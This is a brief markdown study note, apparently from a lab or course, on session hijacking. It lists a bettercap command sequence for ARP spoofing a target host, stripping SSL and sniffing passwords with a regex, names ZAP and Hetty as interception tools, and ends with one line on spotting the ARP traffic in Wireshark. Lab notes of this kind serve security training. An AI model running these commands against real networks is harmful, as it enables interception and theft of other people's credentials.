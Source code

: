 # Session Hijacking

## Perform session hijacking

- Hijack a session using Zed Attack Proxy (ZAP)
windows software

- Intercept HTTP traffic using bettercap
bettercap -iface eth0
net.probe on
net.recon on
set http.proxy.sslstrip true
set arp.spoof.internal true
set arp.spoof.targets 10.10.1.11
http.proxy on
arp.spoof on
net.sniff on
set net.sniff.regexp ‘.password=.+’

- Intercept HTTP traffic using Hetty
start console application
http://localhost:8080

## Detect session hijacking

- Detect session hijacking using Wireshark
bettercap produce a lot of ARP traffic
